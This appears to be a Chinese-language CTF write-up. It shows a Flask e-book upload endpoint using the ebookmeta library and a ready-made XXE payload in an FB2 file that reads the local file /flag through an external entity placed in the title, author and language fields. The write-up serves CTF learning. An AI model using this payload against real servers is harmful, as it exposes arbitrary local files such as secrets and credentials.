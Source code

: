 ```python=
        file.save(fp)
        app.logger.info(fp)

        try:
            meta = ebookmeta.get_metadata(fp)
            return jsonify({'message': "\n".join([
                f"Title: {meta.title}",
                f"Author: {meta.author_list_to_string()}",
                f"Lang: {meta.lang}",
            ])})
        except Exception as e:
            print(e)
            return jsonify({'error': f"{e.__class__.__name__}: {str(e)}"}), 500


if __name__ == "__main__":
    port = getenv("PORT", 8888)
    app.run(host="0.0.0.0", port=port)
```
> 使用到ebookmeta

ebookmeta的漏洞在比賽第二天有人在github提出issue:
https://github.com/dnkorpushov/ebookmeta/issues/16
>[!Important]
>甚至提供了 exploit

![image](https://hackmd.io/_uploads/Bk4xKj-EA.png)

修改payload.fb2
```xml=
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///flag" >
]>
<FictionBook xmlns="http://www.gribuser.ru/xml/fictionbook/2.0" xmlns:l="http://www.w3.org/1999/xlink">
<description>
    <title-info>
        <genre>antique</genre>
        <author><first-name></first-name><last-name>&xxe;</last-name></author>
        <book-title>&xxe;</book-title>
        <lang>&xxe;</lang>
    </title-info>
    <document-info>
        <author><first-name></first-name><last-name>Unknown</last-name></author>
        <program-used>calibre 6.13.0</program-used>
        <date>26.5.2024</date>
        <id>eb5cbf82-22b5-4331-8009-551a95342ea0</id>
        <version>1.0</version>
    </document-info>
    <publish-info>
    </publish-info>
</description>
<body>
<section>
<p>&lt;root&gt;</p>
<p>12345</p>
<p>&lt;/root&gt;</p>
</section>
</body>
</FictionBook>

```